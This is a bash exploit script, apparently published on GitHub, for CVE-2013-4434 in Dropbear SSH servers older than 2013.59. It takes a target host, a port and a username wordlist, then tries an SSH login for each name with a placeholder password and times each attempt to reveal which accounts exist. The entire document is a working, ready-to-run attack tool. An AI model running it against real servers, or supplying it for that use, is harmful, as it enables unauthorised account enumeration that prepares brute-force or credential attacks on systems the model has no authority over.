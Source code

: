 EXP
---

    #!/bin/bash

    # Affected Systems: Dropbear SSH Server before 2013.59
    # CVE-ID: CVE-2013-4434
    # Author: styx00

    # Colours <3
    RED='\033[0;31m'
    GREEN='\033[0;32m'
    BOLD=$(tput bold)
    RESET=$(tput sgr0)

    # Check if 'sshpass' is installed first
    dpkg -l "sshpass" > /dev/null 2>&1
    INSTALLED=$?

    printf "Checking if the 'sshpass' package is installed...\n"
    if [ $INSTALLED == '0' ]; then
        printf "${GREEN}${BOLD}[+] The 'sshpass' package is installed. Let's proceed!${RESET}\n\n"
    else
        printf "${RED}${BOLD}[-] The 'sshpass' package is not installed.${RESET}\n\n"
        exit 1
    fi

    # Function to show the script's usage
    function usage
    {
        printf "Usage: ./dropbear_CVE-2013.sh -t example.com -p 22 -w /home/styx00/usernames.txt"
        printf "\n\t-t, --target\tTarget FQDN or IP address"
        printf "\n\t-p, --port\tPort number"
        printf "\n\t-w, --wordlist\tWordlist containing usernames"
        printf "\n\t-h, --help\tShow help and exit\n"
    }

    while [ "$1" != "" ]; do
        case $1 in
            -t | --target )         shift
                                    target=$1
                                    ;;
            -p | --port )           shift
                                    port=$1
                                    ;;
            -w | --wordlist )       shift
                                    wordlist=$1
                                    ;;
            -h | --help )           usage
                                    exit
                                    ;;
            * )                     usage
                                    exit 1
        esac
        shift
    done

    if [ "$target" !=  "" ] && [ "$port" != "" ] && [ "$wordlist" != "" ]
    then
      printf "Target: %s\n" "${target}"
      printf "port: %s\n" "${port}"
      printf "Wordlist: %s\n" "${wordlist}"

      printf "\nTesting\n---------------\n"

      trap "exit" INT   # Exit on SIGINT
      for username in $(cat $wordlist)
      do
        printf "\n${username}\n\t"
        /usr/bin/time --quiet -f "\tTime: %e" sshpass -p "password" ssh -T $username@$target -p $port </dev/null
      done
      printf "\n---------------\n"
    else
      usage
    fi